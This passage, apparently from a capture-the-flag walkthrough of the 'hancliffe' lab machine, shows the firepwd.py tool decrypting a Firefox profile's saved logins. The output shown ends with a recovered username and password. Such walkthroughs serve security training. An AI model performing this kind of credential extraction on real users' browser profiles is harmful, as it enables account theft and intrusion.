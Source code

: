 Running it against the profile directory returns the decrypted username and password on the last line:

```

oxdf@hacky$ python /opt/firepwd/firepwd.py -d ljftf853.default-release/
globalSalt: b'9a30912b4d63331f8493789d7b0fce68520f9265'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'cda4b75c5041c6cc7114e053f012122ce92ada163d91df9306158a06d145998a'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'f8cea67900ed4b333ca56416f69a'
       }
     }
   }
   OCTETSTRING b'3f321c52f6534075d3d8915531d27df9'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'8d0ed50896869dc856de82150164a1390a953b67792edac2a62315625836ff08'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'76eba390fe01807925d822a071da'
       }
     }
   }
   OCTETSTRING b'cde74fae29c28c791794371b447180cabce01b6927bac73199f192e557136c36'
 }
clearText b'9efbbfd986fd5bef94b032679b7679d09b1f51891601b6e50808080808080808'
decrypting login/password pairs
http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'

```
